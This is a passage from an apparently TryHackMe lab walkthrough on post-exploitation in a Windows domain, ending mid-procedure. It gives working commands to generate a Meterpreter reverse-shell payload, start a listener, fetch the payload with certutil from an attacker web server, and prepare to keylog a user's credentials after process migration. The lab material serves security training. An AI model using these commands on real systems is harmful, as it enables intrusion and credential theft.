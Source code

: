 This  file seems to be a credential database. The issue, however, is that the  database is encrypted with a password. We could attempt to crack the  password, but anyone who uses a credential database usually has the  savvy to make sure the initial password is secure. We may have more  success seeing how the user interacts with this database.

### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for  the best since our shell is currently running in the SYSTEM context.  SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell  is running in the context of that user.

Fortunately, Meterpreter  provides us with a migrate feature, and since we are running as SYSTEM,  we should be able to migrate to any process. You have remote code  execution on THMSERVER1, use this to get a Meterpreter shell. If you  need a recap on using Meterpreter and Metasploit, [here is a module on its use.](https://tryhackme.com/module/metasploit) However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

You can then also use the following to create the associated listener in the msfconsole:

```shell
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD  windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT  "listening port'; exploit"
```

You can host your meterpreter shell using a Python webserver and then copy it using something like this:

```powershell
certutil.exe -urlcache -split -f http:///shell.ps1
```

Once you have a meterpreter shell, you can continue. The first step is to  see if the users have any running processes on this machine:

- **Terminal**

```shell
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID   PPID  Name          Arch  Session  User                     Path
 ---   ----  ----          ----  -------  ----                     ----
 3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
```

It seems like we are lucky! The user has an active session on THMSERVER1.  Let's migrate to a process of this user. The safest bet is usually  sometime like explorer.exe:
